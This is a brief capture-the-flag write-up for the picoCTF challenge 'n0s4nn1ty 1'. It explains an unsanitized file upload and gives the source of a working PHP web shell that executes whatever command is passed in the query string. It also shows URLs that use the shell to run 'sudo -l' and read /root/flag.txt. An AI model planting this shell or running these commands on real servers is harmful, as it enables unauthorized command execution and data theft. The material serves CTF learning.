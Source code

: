## n0s4nn1ty 1
There are somethings that need to be remembered:
1. A php shell is a script written in PHP that lets a user execute system-level commands on a server through a web browser - like a remote terminal via a web page.
2. Since the upload is not sanitized, you can upload the php file.
3. Go to the path http://standard-pizzas.picoctf.net:59410/uploads/shell.php and execute command below to get the info of the current user and then explore the hidden flag file.

http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=sudo -l
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=sudo cat /root/flag.txt


example: 
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>